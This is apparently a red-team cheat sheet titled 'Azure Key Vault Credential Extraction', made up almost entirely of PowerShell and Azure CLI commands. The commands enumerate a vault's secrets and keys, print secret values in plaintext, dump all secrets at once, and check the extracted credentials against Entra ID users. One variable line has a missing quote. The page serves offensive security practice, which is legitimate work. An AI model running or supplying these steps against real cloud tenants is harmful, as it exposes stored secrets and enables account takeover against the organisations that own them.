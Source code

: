 # Azure Key Vault Credential Extraction

### Set variables

$VaultName = "VAULT_NAME"

### Set the current Azure subscription

$SubscriptionID = SUBSCRIPTION_ID"
az account set --subscription $SubscriptionID

### List and store the secrets

$secretsJson = az keyvault secret list --vault-name $VaultName -o json
$secrets = $secretsJson | ConvertFrom-Json

### List and store the keys

$keysJson = az keyvault key list --vault-name $VaultName -o json
$keys = $keysJson | ConvertFrom-Json

### Output the secrets

Write-Host "Secrets in vault $VaultName"
foreach ($secret in $secrets) {
    Write-Host $secret.id
}

### Output the keys

Write-Host "Keys in vault $VaultName"
foreach ($key in $keys) {
    Write-Host $key.id
}

### Set variables

$VaultName = "VAULT_NAME"
$SecretNames = @("NAME_1", "NAME_2", "NAME_3")

### Set the current Azure subscription

$SubscriptionID = "SUBSCRIPTION_ID"
az account set --subscription $SubscriptionID

### Retrieve and output the secret values

Write-Host "Secret Values from vault $VaultName"
foreach ($SecretName in $SecretNames) {
    $secretValueJson = az keyvault secret show --name $SecretName --vault-name $VaultName -o json
    $secretValue = ($secretValueJson | ConvertFrom-Json).value
    Write-Host "$SecretName - $secretValue"
}

### Check if any of these extracted credentials are valid existing Entra ID users

 - az ad user list --query "[?givenName=='NAME_1' || givenName=='NAME_2' || givenName=='NAME_3'].{Name:displayName, UPN:userPrincipalName, JobTitle:jobTitle}" -o table

### Get all secrets from key vault

 - Get-AzKeyVaultSecret -VaultName $VaultName | ForEach-Object { Get-AzKeyVaultSecret -VaultName $VaultName -Name $_.Name -asplaintext }
